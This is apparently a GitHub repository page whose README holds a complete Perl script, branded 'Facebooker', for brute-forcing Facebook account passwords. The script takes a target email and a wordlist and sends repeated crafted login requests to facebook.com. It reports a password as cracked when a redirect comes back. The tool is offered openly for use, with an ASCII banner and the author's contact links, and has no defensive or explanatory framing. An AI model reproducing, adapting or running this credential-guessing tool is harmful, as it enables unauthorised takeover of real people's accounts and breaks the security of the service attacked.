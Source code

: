 # hello-world

Hi Humans!

maraqq1 here




#!/usr/bin/perl
#

use strict;
use Net::SSLeay::Handle;

if(!defined($ARGV[0] && $ARGV[1])) {

system('clear');
print "                               Version 2.32 \n";
print "\033[1;32md88888b  .d8b.   .o88b. d88888b d8888b.  .d88b.  db   dD d88888b d8888b. \n";
print "88'     d8' `8b d8P  Y8 88'     88  `8D .8P  Y8. 88 ,8P' 88'     88  `8D \n";
print "88ooo   88ooo88 8P      88ooooo 88oooY' 88    88 88,8P   88ooooo 88oobY' \n";
print "88~~~   88~~~88 8b      88~~~~~ 88~~~b. 88    88 88`8b   88~~~~~ 88`8b   \n";
print "88      88   88 Y8b  d8 88.     88   8D `8b  d8' 88 `88. 88.     88 `88. \n";
print "YP      YP   YP  `Y88P' Y88888P Y8888P'  `Y88P'  YP   YD Y88888P 88   YD \n";

print "\033[1;32m          ======================================================\n";
print "\033[1;32m               Usage: perl $0 Email wordlist.txt\n";
print "\033[1;32m          ======================================================\n";
exit; }

my $user = $ARGV[0];
my $wordlist = $ARGV[1];

open (LIST, $wordlist) || die "\n[-] Can't find/open $wordlist\n";


print "                               Version 2.32 \n";
print "\033[1;32md88888b  .d8b.   .o88b. d88888b d8888b.  .d88b.  db   dD d88888b d8888b. \n";
print "88'     d8' `8b d8P  Y8 88'     88  `8D .8P  Y8. 88 ,8P' 88'     88  `8D \n";
print "88ooo   88ooo88 8P      88ooooo 88oooY' 88    88 88,8P   88ooooo 88oobY' \n";
print "88~~~   88~~~88 8b      88~~~~~ 88~~~b. 88    88 88`8b   88~~~~~ 88`8b   \n";
print "88      88   88 Y8b  d8 88.     88   8D `8b  d8' 88 `88. 88.     88 `88. \n";
print "YP      YP   YP  `Y88P' Y88888P Y8888P'  `Y88P'  YP   YD Y88888P 88   YD \n";

print "\033[1;32m         ========================================================\n";
print "\033[1;32m                           CONTACT ME ON FACEBOOK:               \n";
print "\033[1;32m                 https://www.facebook.com/Abdelrazek.1337/       \n";
print "\033[1;32m                        Coded By : Abd El-Razek Kandeel          \n";
print "\033[1;32m         ========================================================\n";

print "\033[1;32m\n [+] Cracking Started on: $user ...\n\n";
print "=======================================\n";

while (my $password = <LIST>) {
chomp ($password);
$password =~ s/([^^A-Za-z0-9\-_.!~*'()])/ sprintf "%%%0x", ord $1 /eg;

my $a = "POST /login.php HTTP/1.1";
my $b = "Host: www.facebook.com";
my $c = "Connection: close";
my $e = "Cache-Control: max-age=0";
my $f = "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8";
my $g = "Origin: https://www.facebook.com";
my $h = "User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.31 (KHTML, like Gecko) Chrome/26.0.1410.63 Safari/537.31";
my $i = "Content-Type: application/x-www-form-urlencoded";
my $j = "Accept-Encoding: gzip,deflate,sdch";
my $k = "Accept-Language: en-US,en;q=0.8";
my $l = "Accept-Charset: ISO-8859-1,utf-8;q=0.7,*;q=0.3";

my $cookie = "cookie: datr=80ZzUfKqDOjwL8pauwqMjHTa";
my $post = "lsd=AVpD2t1f&display=&enable_profile_selector=&legacy_return=1&next=&profile_selector_ids=&trynum=1&timezone=300&lgnrnd=031110_Euoh&lgnjs=1366193470&email=$user&pass=$password&default_persistent=0&login=Log+In";
my $cl = length($post);
my $d = "Content-Length: $cl";


my ($host, $port) = ("www.facebook.com", 443);

tie(*SSL, "Net::SSLeay::Handle", $host, $port);
  

print SSL "$a\n";
print SSL "$b\n";
print SSL "$c\n";
print SSL "$d\n";
print SSL "$e\n";
print SSL "$f\n";
print SSL "$g\n";
print SSL "$h\n";
print SSL "$i\n";
print SSL "$j\n";
print SSL "$k\n";
print SSL "$l\n";
print SSL "$cookie\n\n";

print SSL "$post\n";

my $success;
while(my $result = <SSL>){
if($result =~ /Location(.*?)/){
$success = $1;
}
}
if (!defined $success)
{
print "\033[1;31m[-] $password -> Failed \n";
close SSL;
}
else
{
print "\033[1;32m\n########################################################\n";
print "[+] \033[1;32mPassword Cracked: $password\n";
print "\033[1;32m########################################################\n\n";
close SSL;
exit;
}
}
